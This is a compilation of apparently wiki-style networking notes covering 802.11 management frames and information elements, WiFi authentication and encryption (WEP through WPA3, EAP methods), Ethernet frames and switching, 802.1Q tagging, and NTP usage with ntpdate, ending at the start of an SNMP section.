The rest of the country MFIE is composed of Constraint Triplets. The First Channel field signifies the lowest channel subject to the power constraint. Next is the Number of Channels in the band that are subject to the power constraint. Ultimately comes the Max Transmit Power which indicates the maximum transmission power allowed, in dBm.
The size of the information element must be an even number. Otherwise, a Padding byte full of 0s is appended.
Power Constraint
Under 802.11h, stations operating in the 5 GHz bands should reduce their power level so as to avoid creating interference with other devices using the same spectrum. This is referred to as "satellite services", but is so far implemented only to avoid interference with civilian airport radars in the UNII-2 and UNII-2 extended bands. In this field, the AP indicates how much lower than the maximum power indicated by the Country element participants should strive for.
/Management%20Frames/Resources/Images/Power_Constraint_MFIE.svg)
The Local Power Constraint field is the reduction of power, in dBm, from the one in the Country element that stations should strive for. If the Country element designated 10 dBm as the maximum and this field contains 4 dBm, then the stations should ultimately strive for a signal power of 6 dBm.
Power Capability
This field allows a station to report its minimum and maximum transmission power in dBm.
/Management%20Frames/Resources/Images/Power_Capability_MFIE.svg)
TPC Report
The attenuation of the link is useful to stations seeking to adjust their transmission power. This field typically serves as a response to a TPC Request.
/Management%20Frames/Resources/Images/TPC_Report_MFIE.svg)
The Transmit Power indicates the transmission power, in dBm, used to transmit the frame containing the element. The Link Margin is another field which contains the number of decibels that are required by the sending station for safety.
Supported Channels
This field describes the channel sub-bands supported by the device. After the element header follows a series of sub-band descriptors. The first member of the descriptor is the lowest channel supported in the sub-band. The second subfield describes the number of supported channels, beginning with the First Channel.
/Management%20Frames/Resources/Images/Supported_Channels_MFIE.svg)
If a station supported channels 20 through 36, then it would have the above fields set to 20 and 16, respectively.
Channel Switch Announcement
With the advent of 802.11h, a feature for dynamic channel switching was implemented. Therefore, management frames may include this element in order to warn stations about the impending channel switch.
/Management%20Frames/Resources/Images/Channel_Switch_Announcement_MFIE.svg)
When the channel is switched, communications are disrupted. If the Switch Mode is set to 1, then associated stations should cease transmission until the switch occurs. If set to 0, no restrictions are placed on transmission.
The New Channel field indicates the number of the channel to switch to.
Channel switching can be scheduled. The Switch Count indicates the number of TBTTs that it will take before the channel is changed. The channel switch occurs at the nick of time before the beacon frame is sent. If this field is set to 0, then the channel switch may occur without further warning.
Quiet
Under 802.11h, an AP can request a period of silence during which no station should transmit. This is done in order to detect possible radars and then possible issue a channel switch if such is found.
/Management%20Frames/Resources/Images/Quiet_MFIE.svg)
Silence periods are scheduled. The Quiet Count field contains the number of TBTTs before the quiet period is to occur.
Moreover, silence periods may be scheduled periodically. The Quiet Period field indicates the number of beacon intervals between silence periods. If this field is set to 0, then the silence period is not periodical.
The Quiet Duration field specifies the number of time units that the silence period will last.
The Quiet Offset field is the number of time units after a beacon interval that the silence period is to begin at.
Introduction
When 802.11 authentication is complete, the station and AP will move onto to the association phase. The purpose of this exchange is for the station to obtain an Association Identifier (AID). This is achieved by the client sending an Association Request to the AP which then responds with an Association Response.
After the association phase, a second authentication may occur depending on whether a protocol like WPA is set up.
/Management%20Frames/Resources/Images/WiFi_authentication_association.svg)
Management Frame Fields & Information Elements
Listen Interval
This 2-byte field is sent in Association and Reassociation Request in order to signal to the AP how often a station wakes up in order to listen to beacon management frames. Its value is in beacon interval units - a value of \( n \) indicates that the station wakes up every \( n \) beacons.
Association Request
If the authentication phase was successful, then the station willing to join the network will issue an association request.
/Management%20Frames/Resources/Images/Association_Request.svg)
The following elements may be present in an association request:
| Order | Name | Status | Description |
|---|---|---|---|
| 1 | Capability Information | Mandatory | |
| 2 | Listen Interval | Mandatory | |
| 3 | Service Set Identifier (SSID) | Mandatory | |
| 4 | Supported Rates | Mandatory | |
| 5 | Extended Supported Rates | Optional | See Supported Rates. |
| 6 | Power Capability | Optional | Used with 802.11h. |
| 7 | Supported Channels | Optional | Used with 802.11h. |
| 8 | RSN | Optional | Used with 802.11i. |
| 9 | QoS Capability | Optional | Used with 802.11e QoS when the EDCA Parameter element is missing. |
| 10 | RRM Enabled Capabilities | Optional | Used with 802.11k. |
| 11 | Mobility Domain | Optional | Used with 802.11r Fast BSS Transition. |
| 12 | Supported Regulatory Classes | Optional | Used with 802.11r. |
| 13 | HT Capabilities | Optional | Used with 802.11n. |
| 14 | 20/40 BSS Coexistence | Optional | Used with 802.11n. |
| 15 | Extended Capabilities | Optional | See Capability Information. |
| Last | Vendor-Specific | Optional |
Association Response
After the association request is acknowledged by the AP, it is examined to verify that its parameters match those of the AP. If differences are found, then the AP must decide whether or not the discrepancy is significant enough to deny association.
/Management%20Frames/Resources/Images/Association_Response.svg)
If the station can join the network, then the Status Code will contain 0. Otherwise, it will contain the reason for the failure. Additionally, the AP sends its own parameters in the response. A station who is denied association can examine the parameters sent by the AP in the response and try to tweak its own parameters and attempt association anew.
If the association is successful, then the response will contain the association ID for the station. The station can now proceed with sending data or undergoing further authentication. Notwithstanding the 2-byte size of this field, only the 14 less significant bits are used in practice, with the rest of the bits being set to 1.
| Order | Name | Status | Description |
|---|---|---|---|
| 1 | Capability Information | Mandatory | |
| 2 | Status Code | Mandatory | |
| 3 | Association ID | Mandatory | |
| 4 | Supported Rates | Mandatory | |
| 5 | Extended Supported Rates | Optional | See Supported Rates. |
| 6 | EDCA Parameter | Optional | Used with 802.11e QoS when the QoS Capability element is missing. |
| 7 | RCPI | Optional | Used with 802.11k. |
| 8 | RSNI | Optional | Used with 802.11k. |
| 9 | RRM Enabled Capabilities | Optional | Used with 802.11k. |
| 10 | Mobility Domain | Optional | Used with 802.11r. Fast BSS Transition |
| 11 | Fast BSS Transition | Optional | Used with 802.11r. |
| 12 | DSE Registered Location | Optional | Used with 802.11y. |
| 13 | Timeout Interval (Association Comeback Time) | Optional | Used with 802.11w. |
| 14 | HT Capabilities | Optional | Used with 802.11n. |
| 15 | HT Operation | Optional | Used with 802.11n. |
| 16 | 20/40 BSS Coexistence | Optional | Used with 802.11n. |
| 17 | Overlapping BSS Scan Parameters | Optional | |
| 18 | Extended Capabilities | Optional | See Capability Information. |
| Last | Vendor-Specific | Optional |
Reassociation Request
This frame may be sent only from a station to an AP and is used when the station is already connected to the ESS and wishes to connect to another AP within the same ESS. Furthermore, a station may avail itself of this frame when it wants to rejoin the network after it left for a short duration. If the authentication timer has expired, then the station will need to begin anew from the authentication phase and then proceed to issuing a reassociation request. Finally, a station already associated with the network may use a reassociation request in order to tweak some parameters which were exchanged during the original association phase.
/Management%20Frames/Resources/Images/Reassociation_Request.svg)
The following elements may be present in a reassociation request:
| Order | Name | Status | Description |
|---|---|---|---|
| 1 | Capability Information | Mandatory | |
| 2 | Listen Interval | Mandatory | |
| 3 | Current AP MAC Address | Mandatory | |
| 4 | Service Set Identifier (SSID) | Mandatory | |
| 5 | Supported Rates | Mandatory | |
| 6 | Extended Supported Rates | Optional | See Supported Rates. |
| 7 | Power Capability | Optional | Used with 802.11h. |
| 8 | Supported Channels | Optional | Used with 802.11h. |
| 9 | RSN | Optional | Used with 802.11i. |
| 10 | QoS Capability | Optional | Used with 802.11e QoS when the EDCA Parameter element is missing. |
| 11 | RRM Enabled Capabilities | Optional | Used with 802.11k. |
| 12 | Mobility Domain | Optional | Used with 802.11r Fast BSS Transition. |
| 13 | Fast Transition | Optional | Used with 802.11r. |
| 14 | Resource Information Container | Optional | Used with 802.11r. |
| 15 | Supported Regulatory Classes | Optional | Used with 802.11r. |
| 16 | HT Capabilities | Optional | Used with 802.11n. |
| 17 | 20/40 BSS Coexistence | Optional | Used with 802.11n. |
| 18 | Extended Capabilities | Optional | See Capability Information. |
| Last | Vendor-Specific | Optional |
Reassociation Response
The response to a reassociation request has the exact same format as the Association Response Frame.
Disassociation Frame
Association can be terminated by either side at any time by sending a disassociation frame. A station could send such a frame, for example, because it leaves the cell to roam to another AP. An AP could send this frame for example because the station tries to use invalid parameters.
A disassociated station, however, retains its authentication status and may attempt to associate anew without going through the authentication phase.
/Management%20Frames/Resources/Images/Deassociation_Frame.svg)
The Destination MAC for this type of frame may be the MAC address of the target station/AP, or the broadcast address if the AP needs to disassociate all clients.
A deassociation frame typically contains only a Reason Code field, although it may be augmented by vendor-specific MFIEs following this reason code. The last element (if present and if it is not the reason code itself) is used with 802.11w.
Introduction
The authentication phase follows the discovery phase. Note that this is not the same authentication phase as the one which establishes encryption in WPA2. The latter is built on top of this system, which in turn only pertains to Open System Authentication and Shared-Key Authentication.
The purpose of this phase is to only check and confirm and the station which wants to join the network matches the capabilities required. Shared-Key Authentication was introduced as an extension to this phase in order to enable WEP encryption.
It is paramount to note that if more complex authentication, such as that required by WPA, is used, then OSA is used first and any advanced authentication procedures occur after the association phase.
/Management%20Frames/Resources/Images/802_11_authentication.svg)
Authentication Frame
The authentication phase avails itself of only a single type of frame which may be used either 2 or 4 times for Open System Authentication and Shared-Key Authentication, respectively.
/Management%20Frames/Resources/Images/Authentication_Frame.svg)
The Authentication Algorithm Number field value describes which authentication system
is used - 0 for Open System and 1 for Shared-Key.
The Authentication Transaction Sequence Number indicates the stage at which the authentication process is.
The last frame of an authentication exchange bears the ultimate Status Code field. The values 2-9 are reserved and are used when there is no actual status to report (the authentication frame isn't the last in the exchange, e.g. it is an authentication request).
Finally, the Challenge Text element field may or may not be present, depending on the purpose of the authentication frame.
/Management%20Frames/Resources/Images/Challenge_Text_MFIE.svg)
| Authentication Algorithm | Authentication Transaction Sequence Number | Status Code | Challenge Text |
|---|---|---|---|
| Open System | 1 | Reserved | Absent |
| Open System | 2 | Status | Absent |
| Shared-Key | 1 | Reserved | Absent |
| Shared-Key | 2 | Status | Present |
| Shared-Key | 3 | Reserved | Present |
| Shared-Key | 4 | Status | Absent |
Deauthentication Frame
The AP is also capable of sending a deauthentication frame which terminates all communications between the AP and the station. For example, if a station attempts to send data in the network before being authenticated, then the AP will respond with a deauth frame, signifying that authentication is required first.
/Management%20Frames/Resources/Images/Deauthentication_Frame.svg)
A deauthentication frame typically contains only a Reason Code field, although it may be augmented by vendor-specific MFIEs following this reason code. The last element (if present and if it is not the reason code itself) is used with 802.11w.
Introduction
Before connecting to a wireless network, a client needs to be aware of its existence and parameters. This can either be achieved in two ways - passive and active scanning.
Passive scanning is when the client goes through all available channels in turn and listens for beacon frames from the APs in the area. The time spent on each channel is defined by the device's driver.
Active scanning is when the client sends probe requests to each channel in turn in order to discover what networks are available on it.
Management Frame Fields & Information Elements
These are management frame fields and information elements specifically found in discovery management frames - beacon, probe request, and probe response.
Frame Fields
Timestamp
This is an 8-byte long field which contains the number of μs that the AP has been active. It is used in beacon and probe response frames. Stations avail themselves of this field in order to synchronise their clocks using a Time Synchronising Function (TSF). Should the timestamp exceed its maximum value, it will simply be reset to 0 and the counter would continue, although that would take 580 000 years.
Beacon Interval
This 2-byte field represents the interval, in time units (1 TU = 1 kμs = 1 024 μs), between target beacon transmission times (TBTTs). It defaults to 100 TU but small changes may be allowed by certain drivers. It is found in beacon and probe response .
Information Elements
Extended Rate PHY (ERP) Element
This element is found only in beacon and probe response frames on 2.4 GHz networks which support 802.11g.
/Management%20Frames/Resources/Images/ERP_MFIE.svg)
This field is essential to the operation of 802.11b/g/n networks.
The Non-EPR Present bit is set to 1 when either of the following criteria are met:
- A non-ERP station (legacy 802.11 or 802.11b) gets associated with the network.
- An adjoining network which only supports non-ERP data rates is detected, typically via a beacon frame from this BSS/IBSS.
- A management frame (except for probe requests) is received from an adjoining network which only supports non-ERP data rates.
The UseProtection bit is set to 1 as soon as a non-ERP client is associated with the network. It indicates the presence of a station lacking support for 802.11g and signals to ERP clients that the use of a protection mechanism (RTS/CTS or CTS to self) is necessitated before transmission. Within an IBSS, this behaviour is extended to any ERP station receiving a frame from a non-ERP one due to the lack of proper "association". This bit serves as a warning to other ERP stations to signal the presence of the non-ERP station and should spread to the other ERP stations (they should also set the UseProtection bit to 1 in their frames). It is common nowadays to witness the same procedure within a BSS, although it is not standard behaviour.
The Barker Preamble Mode bit is set to 0 to indicate, when using protection, that short preambles are permitted and is set to 1 when only long preambles should be utilised.
IBSS Parameter Set
This element is found in beacon and probe response of stations within an IBSS.
/Management%20Frames/Resources/Images/IBSS_Parameter_Set.svg)
It contains the Announcement Traffic Indication Message (ATIM) window and indicates the time, in TUs, between ATIM frames in the IBSS.
Beacon Frames
Beacon frames are used by APs (and stations in IBSS) in order to announce their presence to the surrounding area and to communicate the parameters of the network. Not only are these frames used by potential clients, but it they also serve the active clients in the network.
Beacon frames are broadcasted periodically at the so-called target beacon transmission time (TBTT). The interval between beacon transmissions is defined in the AP MIB and defaults to 100 time units, or a little over 102 ms (1 TU = 1 kμs = 1 024 μs). However, the AP will need to delay the transmission if the network is busy.
Beacon frames are used by the stations in a network for time synchronisation. A timestamp as well as the expected transmission time of the next beacon are included in every beacon frame. The timestamp is utilised by each station in the so-called Timing Synchronisation Function (TSF).

Following is a table of the possible fields in a beacon frame (the order for optional fields may vary):
| Order | Name | Status | Description |
|---|---|---|---|
| 1 | Timestamp | Mandatory | |
| 2 | Beacon Interval | Mandatory | |
| 3 | Capability Information | Mandatory | |
| 4 | Service Set Identifier (SSID) | Mandatory | |
| 5 | Supported Rates | Mandatory | |
| 6 | Frequency-Hopping (FH) Parameter Set | Optional | Used by legacy FH stations. |
| 7 | DS Parameter Set | Optional | Present within beacon frames with stations with clause 15, 18, and 19 as their provenance. |
| 8 | CF Parameter Set | Optional | Used for PCF and not present in non-notional situations. |
| 9 | IBSS Parameter Set | Optional | Used within an IBSS (duh). |
| 10 | Traffic Indication Map (TIM) | Optional | Present only in beacons with an AP as their provenance. |
| 11 | Country | Optional | |
| 12 | FH Parameters | Optional | Used with legacy FH stations. |
| 13 | FH Pattern Table | Optional | Used with legacy FH stations. |
| 14 | Power Constraint | Optional | Used with 802.11h. |
| 15 | Channel Switch Announcement | Optional | Used with 802.11h. |
| 16 | Quiet | Optional | Used with 802.11h. |
| 17 | IBSS DSF | Optional | Used with 802.11h in an IBSS. |
| 18 | TPC Report | Optional | Used with 802.11h. |
| 19 | ERP Information | Optional | |
| 20 | Extended Supported Rates | Optional | See Supported Rates. |
| 21 | RSN | Optional | |
| 22 | BSS Load | Optional | Used with 802.11e QoS. |
| 23 | EDCA Parameter | Optional | Used with 802.11e QoS when the QoS Capability element is missing. |
| 24 | QoS Capability | Optional | Used with 802.11e QoS when the EDCA Parameter element is missing. |
| 25 - 32, 34 - 36 | Vendor Specific | Optional | |
| 33 | Mobility Domain | Optional | Used with 802.11r Fast BSS Transition. |
| 37 | HT Capabilities | Optional | Used with 802.11n. |
| 38 | HT Operation | Optional | Used with 802.11n. |
| 39 | 20/40 BSS Coexistence | Optional | Used with 802.11n. |
| 40 | Overlapping BSS Scan Parameters | Optional | |
| 41 | Extended Capabilities | Optional | See Capability Information. |
Probe Request Frame
Probe request frames are employed by devices seeking to uncover what networks are present on a certain channel. They are typically sent to the broadcast address of FF:FF:FF:FF:FF:FF using the common CSMA/CA procedure. Once a probe request is sent, the sender station initiates a countdown, typically much shorter than the duration of a beacon interval. When the timer runs out, the device process the probe responses it received.
/Management%20Frames/Resources/Images/Probe_Request_Frame.svg)
| Order | Name | Status | Description |
|---|---|---|---|
| 1 | Service Set Identifier (SSID) | Mandatory | |
| 2 | Supported Rates | Mandatory | |
| 3 | Request Information | Optional | See below. |
| 4 | Extended Supported Rates | Optional | See Supported Rates. |
| 5 | Vendor-Specific | Optional | Used by the vendor as seen fit. |
The SSID of a particular network that the device is looking for may be set in the appropriate field. This way, only the devices bearing the desired SSID should response. Otherwise, the SSID element is still present but is empty. In this case, it signifies a wildcard probe and so all available networks should respond.
The rates supported by the device are sent together with the probe request so as to serve as a reference to the AP's response.
Request Information Element
The Request Information element is optional and may be used to enquire about a particular information element of a network.
/Management%20Frames/Resources/Images/Request_Information_MFIE.svg)
It has an element ID of 10 and its component is a series of 1-byte integers indicating the element IDs of the desired elements. The network should in turn respond with these elements in the Probe Response.
TPC Request
The Transmit Power Control (TPC) Request information element is a notional element used to request radio link management information. It has no associated data and is really only meant as placeholder for a part of a request information element.
/Management%20Frames/Resources/Images/TPC_Request_MFIE.svg)
Probe Response Frame
This is the type of frame which serves as a response to a Probe Request. It closely resembles a beacon frame, since they both answer the same more or less the same questions - they give information about the AP (or a station in IBSS) and the network. In fact, here are the differences:
- A beacon frame has a TIM field, whereas a probe response does not.
- A beacon frame may contain a QoS Information element, announcing basic QoS support.
- A probe response will also contain the elements requested in the probe request.
/Management%20Frames/Resources/Images/Probe_Response_Frame.svg)
A probe response frame is sent as a unicast frame with the destination address being the MAC address of the station which issued a probe request. The probe response is transmitted at the lowest mutually supported rate by the AP and the soliciting station. Just like any unicast frame, a probe response should be acknowledged by the recipient station.
| Order | Name | Status | Description |
|---|---|---|---|
| 1 | Timestamp | Mandatory | |
| 2 | Beacon Interval | Mandatory | |
| 3 | Capability Information | Mandatory | |
| 4 | Service Set Identifier (SSID) | Mandatory | |
| 5 | Supported Rates | Mandatory | |
| 6 | Frequency-Hopping (FH) Parameter Set | Optional | Used by legacy FH stations. |
| 7 | DS Parameter Set | Optional | Present within beacon frames with stations with clause 15, 18, and 19 as their provenance. |
| 8 | CF Parameter Set | Optional | Used for PCF and not present in non-notional situations. |
| 9 | IBSS Parameter Set | Optional | Used within an IBSS (duh). |
| 10 | Country | Optional | Used with 802.11d and used with 802.11h. |
| 11 | FH Parameters | Optional | Used with legacy FH stations. |
| 12 | FH Pattern Table | Optional | Used with legacy FH stations. |
| 13 | Power Constraint | Optional | Used with 802.11h. |
| 14 | Channel Switch Announcement | Optional | Used with 802.11h. |
| 15 | Quiet | Optional | Used with 802.11h. |
| 16 | IBSS DSF | Optional | Used with 802.11h in an IBSS. |
| 17 | TPC Report | Optional | Used with 802.11h. |
| 18 | ERP Information | Optional | |
| 19 | Extended Supported Rates | Optional | See Supported Rates. |
| 20 | RSN | Optional | |
| 21 | BSS Load | Optional | Used with 802.11e QoS. |
| 22 | EDCA Parameter | Optional | Used with 802.11e QoS when the QoS capability element is missing. |
| 23 | Measurement Pilot Transmission Information | Optional | Used with 802.11k. |
| 24 | Multiple BSSID | Optional | Used with 802.11k. |
| 25 | RRM Enabled Capabilities | Optional | Used with 802.11k. |
| 26 | AP Channel Report | Optional | Used with 802.11k. |
| 27 | BSS Average Access Delay | Optional | Used with 802.11k. |
| 28 - 30 | Reserved | - | |
| 31 | Mobility Domain | Optional | Used with 802.11r. |
| 32 | DSE Registered Location | Optional | Used with 802.11w. |
| 33 | Extended Channel Switch Announcement | Optional | Used with 802.11y. |
| 34 | Supported Regulatory Classes | Optional | Used with 802.11y. |
| 35 | HT Capabilities | Optional | Used with 802.11n. |
| 36 | HT Operation | Optional | Used with 802.11n. |
| 37 | 20/40 BSS Coexistence | Optional | Used with 802.11n. |
| 38 | Overlapping BSS Scan Parameters | Optional | |
| 39 | Extended Capabilities | Optional | See Capability Information. |
| 40 - n | Requested Information Elements | Optional | The information elements requested in the Probe Request. |
| Last | Vendor-Specific | Optional | Follows all other elements. |
Introduction
Before a device can send traffic to an AP it needs to be authenticated and associated with that access point. This is done via a 4-way handshake:
First, the client sends an Authentication Request frame. The AP then returns an Authentication Response. If authentication is allowed by the AP, the client can now send the Association Request, to which the AP will response with an Association Response stating whether or not the association was successful.
Authentication
Authentication refers to the verification of a device's identity, but does not include encryption. There are multiple possible protocols for authentication.
Open Authentication
Open Authentication is fairly simple and absolutely insecure. A device needs only send a request to the AP telling it that it wants to authenticate to the network.. If this is allowed, then the client will be associated with the network, no questions asked. When WEP is enabled, however, the client will still need the WEP key in order to encrypt and decrypt traffic.
Shared Key Authentication
This is also sometimes referred to as WEP authentication and isn't secure either. In shared key authentication, a client needs to already have the WEP key in order to authenticate. When connecting to the network, the AP sends a challenge (random bytes), in clear text, to the client. The client must encrypt the sent challenge with the WEP key and send it back to the AP. When the AP receives the encrypted challenge, it attempts to decrypt it using the WEP key and if the decrypted challenge matches what was originally sent in cleartext, then the client is authenticated.
/Resources/Images/Shared_Key_Auth.svg)
The Extensible Authentication Protocol (EAP)
This is not an authentication protocol per se, but is rather a framework and defines a set of functions which are utilised by various authentication protocols, called EAP Methods. EAP is integrated with another protocol, 802.1X, which provides port-based network access control and is used in both wired and wireless networks to limit access. This framework is typically used in enterprises.
There are three main entities in 802.1X:
- Supplicant - the device which wants to join the network
- Authenticator - the device providing access to the network
- Authentication Server (AS) - the device receiving credentials and allowing/denying access to the network and
/Resources/Images/8021X_entities.svg)
The authentication required to associate with the AP is simply Open Authentication, however, the device does not get full access to the network. Instead, only traffic for further EAP Authentication is allowed.
Lightweight EAP (LEAP)
This EAP method was developed by Cisco as an improvement over WEP. Clients are required to provide a username and password for authentication. Additionally, mutual authentication is actuated by both the client and server sending a challenge to each other. From then on, the process of authentication is the same as with Shared Key Authentication. LEAP, however, also avails itself of dynamic WEP keys which change frequently in order to make cracking encryption harder. Unfortunately, LEAP suffers from vulnerabilities like WEP and is insecure.
/Resources/Images/LEAP.svg)
EAP Flexible Authentication via Secure Tunnelling (EAP-FAST)
This method was also developed by Cisco and consists of three phases:
- the generation and provision of a Protected Access Credential (PAC) from the server to the client
- the establishment of a secure TLS tunnel between the authentication server and the client
- further authentication by using the TLS tunnel
/Resources/Images/EAP_FAST.svg)
Protected EAP (PEAP)
PEAP is similar to EAP-FAST insofar as it also involves the establishment of a TLS tunnel between the client and the server. However, instead of a PAC, a digital certificate is used. The server is authentication by the client using this certificate and is used for the establishment of the TLS tunnel. However, further authentication is still necessary inside the tunnel in order to authenticate the client to the server.
/Resources/Images/PEAP.svg)
EAP Transport Layer Security (EAP-TLS)
In comparison with PEAP, EAP is quite similar but, in addition to the server, it requires that every client has a certificate of its own. This is considered as the most secure EAP authentication method, but is gruelling to implement due to its complexity.
Since both the client and the server are authenticated to each other using the certificates, there is no need for further authentication within a TLS tunnel. Nevertheless, this tunnel is still established for the exchange of encryption key information.
/Resources/Images/EAP_TLS.svg)
Introduction
Encryption and Message Integrity Checking are paramount to the world of wireless networks, since the radio signals sent by a device are received by every other device in range.
Message Integrity Checks
Message integrity checking ensures that a frame has not been tampered with by an adversary - the message sent by a device should be the same message received by the recipient.
In order to achieve this, a Message Integrity Check (MIC) is calculated by the sender and added to the message. When the recipient receives the message, the recipient also calculates a MIC based on the message. If the MIC in the message does not match the MIC calculated by the recipient, then the frame is discarded.
/Resources/Images/WiFi_Integrity_MIC.svg)
Encryption Methods
Wireless Equivalent Privacy (WEP)
This is the original encryption method introduced by the 802.11 standard which was later found to be vulnerable and insecure. It supports only two authentication modes - Open System Authentication (OSA) and Shared Key Authentication (SKA).
Under the hood, WEP uses a stream cipher called RC4 with a key and a 24-bit initialisation vector (IV) which is generated anew with every encryption.
The key is static and is set in the AP's configuration. It can be either 40 or 104 bits in length and is combined with the 24-bit IV.
The IV is used in combination with the key to encrypt the packets. The IV should be unique for every frame encrypted, but due to its small size - 24 bits - there are only so many possible IVs. Eventually, IVs will have to be repeated and this is where all hell breaks loose.
/Resources/Images/WEP_RC4.png)
Temporal Key Integrity Protocol (TKIP)
This protocol was developed on top of WEP and provides additional security features. Its purpose was to serve as an interim solution to the vulnerabilities in WEP, since hardware at the time was heavily designed around the latter.
It adds a 64-bit MIC to every frame and inside is included sender's MAC address. Furthermore, a timestamp is added to the MIC in order to preclude replay attacks, whereby previously sent frames are retransmitted by an adversary. Moreover a TKIP Sequence Number is used to keep track of frames sent by each source MAC address, which provides further protection against replay attacks.
The IV in TKIP is doubled in size from 24 bits to 48 bits and a Key Mixing Algorithm is implemented in order to generate unique (temporal) WEP keys for every frame.
This encryption method is used by WPA1.
Counter / CBC-MAC Protocol (CCMP)
CCMP was developed after TKIP and, due its higher security, finds its use in WPA2. In order to be used, however, it requires special hardware which is not present in ancient devices.
For encryption, CCMP utilises AES counter mode.
Cipher Block Chaining Message Authentication Code (CBC-MAC) is used as a MIC to ensure the integrity of messages.
Galois / Counter Mode Protocol (GCMP)
This protocol provides even further security than CCMP and is additionally more efficient. It is used in WPA3.
For encryption, GCMP also uses AES counter mode. However, it utilises Galois Message Authentication Code (GMAC) for MICs.
Introduction
WPA, WPA2, and WPA3 are consecutive versions of the most-widely used WiFi security standard today. All versions support two authentication modes:
- Personal Mode - this mode uses a pre-shared key (PSK) for authentication and is commonly referred to as WPA-PSK. This is typically utilised in home and small office networks. The PSK is derived from the WiFi network's password and its SSID, but is actually never sent over the air for security reasons. Instead, it is used for the derivation of other encryption keys.
- Enterprise Mode - this mode uses 802.1X authentication and supports all EAP methods. As the name implies, this authentication mode is typically used in larger enterprise networks.
WPA was developed after WEP was found to be vulnerable. Its encryption and MIC were provided by TKIP.
It was superseded by WPA2 in 2004 which utilises CCMP for encryption and MIC.
WPA3 is the successor to WPA2 introduced in 2018 and uses GCMP. Furthermore, it now mandates Protected Management Frames (PMF) to protect 802.11 management frames from eavesdropping and forging. Moreover, the 4-way handshake in Personal Mode is protected by Simultaneous Authentication of Equals (SAE) and forward secrecy is used to prevent save-now-decrypt-later attacks of frames.
Introduction
The Ethernet protocol defines how data moves in wired LANs. Its packets are referred to as Ethernet frames.
An Ethernet frame looks like the following:

Each frame is preceded by a preamble and a start frame delimiter (SFD). The preamble is a 56-bit long (7 bytes) sequence of alternating 1s and 0s like this 10101010... and allows devices to synchronise their clocks in order to prepare for the receipt of the incoming frame. The preamble is followed by a 1-byte start frame delimiter which is of the same form as the preamble, but ends in a 1: 10101011. It signifies the end of the preamble and the start of the actual Ethernet frame. It should be noted that the preamble and SFD are typically not considered part of the frame.
Following are two 6-byte fields which contain the MAC addresses of the frame's destination and its source. These are the MAC address of the device for which the frame is intended and the MAC address of the device which sent the frame, respectively.
The last member of the Ethernet header is the Length / Type field. It is 2 bytes long. If it has a value \( \leq 1500 \), then it denotes the length (in bytes) of the frame's payload. A value \( \geq 1536 \) is used to signify the layer 3 protocol used in the encapsulated packet. Here is a table of some common protocols and there EtherType values:
| Protocol | Value |
|---|---|
| ARP | 0x0806 |
| IPv4 | 0x0800 |
| IPv6 | 0x86DD |
There is a minimum size of 64 bytes (encapsulating header, payload, and trailer) for any Ethernet frame. This means that the payload must be at least 46 bytes in length. If it is shorter, then it will be padded with null bytes.
Following the payload of the frame is the Ethernet trailer. It is comprised of a single 4-byte member called either the Frame Check Sequence (FCS) or the Cyclic Redundancy Check (CRC). It renders the service of detecting corrupted data by running a CRC algorithm over the received data.
Ethernet LAN Switching
Imagine the following network where below each PC is an example MAC address. The switch interfaces FO/i denote fast ethernet.

Suppose now that PC1 wishes to send a frame to PC2. Such a frame is called a unicast frame, since it is destined for a single target. The frame is sent to the switch and once it is received there, the switch inspects its source MAC address and adds it to its MAC address table together with the corresponding interface. That way, the switch is now cognisant of the fact that the MAC address 00:00:01 (shortened here for simplicity) can be found at interface FO/1. Such a MAC address is referred to as dynamically-learnt, or simply dynamic. MAC addresses are removed from the switch's MAC address table after a certain period of inactivity, typically 5 minutes. This is known as aging.

SW1 now inspects the destination MAC address of the frame. If the destination MAC is in the switch's table, then the frame is called a known unicast frame and is simply forwarded to its destination on the appropriate interface. Otherwise, the frame is an unknown unicast frame and the switch has only one option - to forward the frame through all of its channels, save for the the frame's provenance. The PCs whose MAC address does not match the frame's destination simply ignore it, but the intended recipient processes it up the full OSI stack.
If the recipient does not send a response, then the exchange ends here. Otherwise, the response frame is sent to sender of the original frame. Once the frame receives it, it records the source MAC address in its table. Since the new destination (PC1) is already present in this table, the frame is subsequently forwarded only to PC1.
The process is pretty much the same when multiple switches are connected to together. In this case, however, multiple PCs may share the same interface in a switch's MAC address table.

In a Cisco switch, you can use the following command to inspect a switch's MAC address table:
show mac address-table

Type indicates whether or not the MAC address was statically configured or dynamically-learnt. Ports here means interfaces.
802.1Q Encapsulation
When multiple VLANs with trunking are supported in a LAN, they are typically distinguished by dint of the IEEE 802.1Q Encapsulation standard. This standard inserts a 4-byte (32-bit) field, called the 802.1Q tag, between the source MAC and type/length fields of the Ethernet header.


This tag is separated into two main fields - the Tag Protocol Identifier (TPID) and the Tag Control Information (TCI). Each field is two bytes in length.
The TPID is constant and always has the value of 0x8100. It is typically located where the type/length field would and is what identifies the frame as a 802.1Q-tagged frame.
The TCI is further subdivided into 3 fields. The Priority Code Point (PCP) is 3 bits in length and is utilised for Class of Service (CoS) which assigns different priority to traffic in congested networks. Following is the 1-bit Drop Eligible Indicator (DEI) and it specifies whether or not the frame is allowed to be dropped if the network is congested. The last 12 bits are the VLAN ID (VID) which actually identifies the VLAN that the frame pertains to.
Introduction
The Network Time Protocol (NTP) is a protocol for clock synchronisation across computer systems. Its existence is paramount in order to pinpoint events occurring at a certain moment within a network. Devices with unsynchronised clocks will report that the event transpired at different times thus making it very difficult to figure out the actual time of occurrence.
This protocol works over UDP on port 123.
How does NTP work?
NTP utilises a hierarchy system. Each clock is assigned a stratum. Stratum values range between 0 and 15, with a value of 16 denoting an unsynchronised clock. Devices of Stratum 0 are called reference clocks and these are one of the most accurate time-keeping machines such as atomic clocks. The stratum value, therefore, represents the distance from the reference clock or how accurate a given clock is in comparison to a device of Stratum 0. Every new layer adds a 1 to the stratum value.
Reference clocks are not directly connected to the network. Instead, the so-called primary time servers connect to the reference clock and synchronise their clocks with it. These servers have a stratum value of 1. For each layer you go down the chain, the stratum value increases by 1, since the distance from the reference clocks augments.

Synchronising time on Linux with ntpdate
ntpdate is a useful utility for synching time on Linux machines through NTP. Its syntax is really simple:
ntpdate [server]
In order to set the date, it requires root privileges:

Synching the time with a Windows machine on my network:

New time:

It can also be useful to only check how unsynched your time is with respect to another clock. You can do this by adding the -q option. This does not require root privileges.

That's quite the difference!
Introduction
SNMP is a protocol which renders the service of providing monitoring of devices connected to a network. It can provide information such as online status, network bandwith, and even temperature.
This protocol works over UDP on port 161.
Agents
